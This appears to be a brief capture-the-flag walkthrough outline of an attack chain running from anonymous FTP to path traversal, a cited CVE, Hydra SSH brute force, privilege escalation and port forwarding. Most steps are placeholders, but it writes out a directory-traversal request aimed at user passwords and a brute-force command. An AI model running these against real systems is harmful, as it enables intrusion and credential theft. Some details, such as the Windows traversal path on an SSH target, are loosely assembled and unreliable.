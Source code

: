 # FTP => Path Traversal => CVE

1. Initial Recon | Techniques: Nmap Scan
```bash
nmap -sC -sV -sS <Target IP>
```

2. FTP Enumeration | Techniques: Anonymous FTP Access
```bash
ftp <Target IP>
# then use ls, cd, get commands to interact 
```

3. File Analysis | Techniques: Reviewing Downloaded Files
```bash
get "DownloadFile"
```

4. Web Enumeration | Techniques: Enumerate Web Pages
```bash
Manual inspection of web application on port 80/tcp
```

5. Exploitation | Techniques: Exploit Vulnerability (such as CVE-2019-2085)
```bash
# Use CVE details from Exploit-DB and Burp Suite to exploit
```

6. Credential Access | Techniques: Extarct Password via Directory Traversal
```bash
GET /../../../../windows/user/ #hijack users password
```

7. Brute Force | Techniques: SSH Brute Force with Hydra
```bash
hydra -L users.txt -P pass.txt <TargetIP> ssh
```

8. SSH Access | Techniques: Login via SSH
```bash
#SSH login with found credentials
```

9. Privilege Escalation | Techniques: Exploit Vulnerability
```bash
#Follow CVE detailss from Exploit-DB to exploit vulnerability
```

10. Local Port Forwarding | Techniques: Port Forwarding via SSH
```bash
#Use SSH port forwarding to interact with local services
```



